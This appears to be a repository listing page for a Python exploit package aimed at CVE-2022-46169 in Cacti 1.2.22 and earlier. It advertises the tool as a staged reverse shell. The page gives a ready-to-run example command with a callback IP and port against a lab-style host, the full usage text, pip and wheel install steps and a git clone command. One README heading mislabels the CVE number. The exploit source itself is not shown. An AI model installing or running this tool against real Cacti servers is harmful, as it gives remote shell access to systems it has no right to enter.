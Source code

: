 # CVE-2022-46169

🐍 Python Exploit for CVE-2022-46169

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/BKreisel](https://github.com/BKreisel) |
| Url      | [https://github.com/BKreisel/CVE-2022-46169](https://github.com/BKreisel/CVE-2022-46169)                                               |
| Stars    | 0                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* cve-2022-46169* exploit* python

</details>

## Readme

# CVE-2022-41343
🐍 Python Exploit for CVE-2022-46169

Staged Reverse Shell for Cacti <= 1.2.22

## Example
```
cve-2022-46169 10.10.14.5 44444 -u http://cacti.htb
```

## Usage
```bash
usage: cve-2022-46169 [-h] -u URL [-s SHELL] ip port

positional arguments:
  ip                    Shell Callback IP Address/Host
  port                  Shell Callback Port

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Cacti Server URL
  -s SHELL, --shell SHELL
                        Remote Shell (default: /bin/bash)
```
## PyPi Installation
```bash
python3 -m pip install cve-2022-46169
```

## Manual Installation
```bash
python3 -m pip install cve-2022-46169-1.0.0-py3-none-any.whl
```
[Download Latest Release](https://github.com/BKreisel/CVE-2022-46169/releases/download/1.0.0/cve_2022_46169-1.0.0-py3-none-any.whl)

## Demo
[![demo](https://asciinema.org/a/582570.svg)](https://asciinema.org/a/582570?autoplay=1)



## Get the content

```
git clone https://github.com/BKreisel/CVE-2022-46169
cd CVE-2022-46169
```

{% embed url="https://github.com/BKreisel/CVE-2022-46169" %}

<figure><img src="https://avatars.githubusercontent.com/u/1513073?v=4" alt=""><figcaption><p>BKreisel</p></figcaption></figure>
